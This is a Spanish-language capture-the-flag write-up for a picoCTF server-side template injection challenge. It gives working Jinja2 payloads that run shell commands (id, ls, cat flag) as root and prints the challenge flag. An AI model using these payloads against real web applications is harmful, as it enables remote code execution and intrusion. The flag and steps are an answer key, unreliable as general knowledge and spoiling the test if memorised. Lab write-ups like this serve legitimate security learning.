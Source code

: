 #Software #Hacking #WebExplotation #Web #Internet 
Hecho por: [[Yolanda Alejandra Sifuentes Flores]]
# Definición
I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:62341/)!
# Hints
- Server Side Template Injection
# Solución
1. Ingresamos a la pagina web, y vemos que podemos publicar cosas.
2. Nos damos cuenta que aquí se pueden ejecutar códigos (como 7\*7 -ver más [aquí](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)-)
3. Así que decidimos probar suerte con este código
```javascript
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
Y vemos lo siguiente: uid=0(root) gid=0(root) groups=0(root)
4. Y funciona, por lo que adaptamos el comando a lo que ocupamos: [[ls]]
```javascript
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
Y nos muestra esto: \__pycache__ app.py flag requirements.txt
5. Finalmente extraemos la bandera con [[CAT]]
```javascript
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```
## Respuesta
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_424a1494}